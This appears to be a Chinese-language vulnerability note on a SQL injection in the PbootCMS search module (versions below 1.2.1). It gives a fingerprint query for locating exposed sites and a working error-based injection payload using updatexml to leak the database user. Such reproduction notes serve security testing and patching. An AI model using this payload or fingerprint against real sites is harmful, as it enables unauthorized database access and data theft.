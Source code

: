 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS < 1.2.1</a-checkbox></br>

## 网络测绘 

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

搜索框页面为

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210702112736099.png)



Payload为



```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210702112805069.png)



